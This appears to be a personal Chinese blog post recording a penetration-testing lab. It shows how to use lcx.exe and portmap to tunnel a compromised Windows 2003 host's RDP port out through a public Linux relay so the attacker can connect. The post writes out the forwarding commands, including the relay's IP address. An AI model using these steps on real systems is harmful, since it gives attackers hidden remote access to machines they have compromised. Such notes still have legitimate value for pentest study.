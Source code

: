 ```yaml
---
layout:     post
title:      LCX端口转发
subtitle:   win2003-公网linux-本地RDP连接
date:       2019-05-25
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - LCX
    - 端口转发
---
```


## LCX端口转发

>LCX端口转发是在渗透过程中经常会用到的一种技术手段，使用方法也比较简单，但是今天用的时候突然忘了该怎么使。
>所以还是做个记录，方便以后查阅

## 实验环境
* win2003  （肉鸡）
* 公网linux  （转发机器）
* 本机   （攻击机）

## 过程记录


* 在肉鸡上传lcx.exe，并在lcx.exe目录下执行命令<br>
`lcx.exe -slave 45.77.43.77 2222 192.168.17.128 3389`
>将本机的3389端口转发到45.77.43.77的2222端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215123.png)

* 在公网的linux机器上执行命令<br>
`./portmap -m 2 -p1 2222 -p2 55`
>监听本地的2222端口，并将其数据转发到55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215444.png)

* 在本机使用mstsc连接45.77.43.77的55端口

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215653.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215810.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190525215820.png)

* 连接成功

